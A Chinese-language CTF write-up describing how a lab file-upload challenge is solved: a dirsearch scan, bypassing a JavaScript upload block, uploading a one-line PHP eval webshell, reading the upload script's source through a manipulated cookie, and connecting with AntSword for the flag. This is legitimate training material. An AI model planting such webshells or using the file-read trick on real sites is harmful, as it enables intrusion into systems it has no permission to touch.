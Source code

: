 ```yaml
---
title: "一道跳转后不显示路径的文件上传题 "
categories: ["安全技术", "CTF"]
tags: ["文件上传"]
draft: false
slug: "548"
date: "2020-03-31 22:11:00"
---
```


## 事情起因

整理遗漏的靶场

## 经过

[靶机地址][1]

打开显示是这样的：

![][2]

提示已经很明显了，让我们找到后台上传`shell`拿到网站根目录的`key`

### 发现上传点

那就先扫描后台把，上`dirsearch`

```
python dirsearch.py -u xxx.xxx.xxx.xxx:yyy -e asp,php -x 400,403,404,500,503,514,564 -F -t 300 --random-agents --http-method head
```

![][3]

emmmm，全是`admin`目录下的，单独访问`admin`空页面，那加上个`upload.php`:

![][4]

先跳转到了`upload1.php`，弹窗显示无权上传，之后跳转到了`upload2.php`:

![][5]

作为一个曾经的`ctf`菜鸡选手，直觉告诉我`upload1.php`有问题，上`burp`拦截：

![][6]

嗯，返回的页面中我们可以清楚地看到有一个表单，弹窗拦截的首先考虑是前端`js`

浏览器禁用`javascript`，重新访问`upload.php`，跳转到`upload1.php`后显示出了上传框

![][7]

直接莽，上传一个`test.php`，内容如下：

```
<?php @eval($_POST['aa']);?>
```

![][8]

上传成功，跳转到了`upload_file.php`，Yeah!，哎，等一下，路径呢？@(黑线)

### 获取上传路径

有点冲动了，上`burp`重新拦截`upload1.php`上传界面：

![][9]

嗯，一切很正常，但是上传完它不给路径啊，仔细看下验证的`cookie`:

```
Cookie:uploadmd5=verify%2F266c9bd3c1cd6c9e.txt;
```

这个验证的这串字符`266c9bd3c1cd6c9e`一般是有用的，既然跳转到了`upload_file.php`

那么说明生成上传的`shell`的路径的代码肯定在`upload_file.php`这个文件里

试下把`uploadmd5`值改为`upload_file.php`看能不能读取源代码(有点任意文件读取漏洞的意思)：

![][10]

`OHHHHHHH`，读取到了上传的源代码：

```
<?php
$path="uploadfile/";//上传路径
$verify=$_POST["verify"];
$time=date("Ymd");
if($_FILES["filename"]["name"])
{
$file1=$_FILES["filename"]["name"];
$file2 = $path.$time.'_'.$verify.'_'.$file1;
$flag=1;
}
if($flag) $result=move_uploaded_file($_FILES["filename"]["tmp_name"],$file2);
if($result) echo "上传成功!";

?>
```

上传文件的路径构造语句也找到了：`$path.$time.'_'.$verify.'_'.$file1`

也就是`上传目录.date("Ymd")_verify的值_文件名`

那我上传的文件路径就应该为：`admin/uploadfile/20200331_266c9bd3c1cd6c9e_test.php`

## 结果

蚁剑连接：

![][11]

成功拿到`flag`:

![][12]

参考文章：

- [墨者学院 - WebShell 文件上传分析溯源(第 2 题)][13]
- [墨者学院-WebShell 文件上传分析溯源(第 2 题)][14]
- [墨者学院-WebShell 文件上传分析溯源(第 2 题)-writeup][15]
- [墨者 - WebShell 文件上传分析溯源(第 2 题)][16]

本文完。

[1]: https://www.mozhe.cn/bug/detail/NXNRQnJGa1g1U3lmUTNxMEQ3TUFnUT09bW96aGUmozhe
[2]: https://img.soapffz.com/archives_img/2020/03/31/archives_20200331_213813.png
[3]: https://img.soapffz.com/archives_img/2020/03/31/archives_20200331_213835.png
[4]: https://img.soapffz.com/archives_img/2020/03/31/archives_20200331_213921.png
[5]: https://img.soapffz.com/archives_img/2020/03/31/archives_20200331_214012.png
[6]: https://img.soapffz.com/archives_img/2020/03/31/archives_20200331_215436.png
[7]: https://img.soapffz.com/archives_img/2020/03/31/archives_20200331_220046.png
[8]: https://img.soapffz.com/archives_img/2020/03/31/archives_20200331_220126.png
[9]: https://img.soapffz.com/archives_img/2020/03/31/archives_20200331_220347.png
[10]: https://img.soapffz.com/archives_img/2020/03/31/archives_20200331_214922.png
[11]: https://img.soapffz.com/archives_img/2020/03/31/archives_20200331_220653.png
[12]: https://img.soapffz.com/archives_img/2020/03/31/archives_20200331_220800.png
[13]: https://blog.csdn.net/qq_42357070/article/details/81327942
[14]: https://www.jianshu.com/p/5ab768c4c032
[15]: https://www.it2021.com/penetration/analysis/212.html
[16]: https://blog.csdn.net/qq_39936434/article/details/96145627
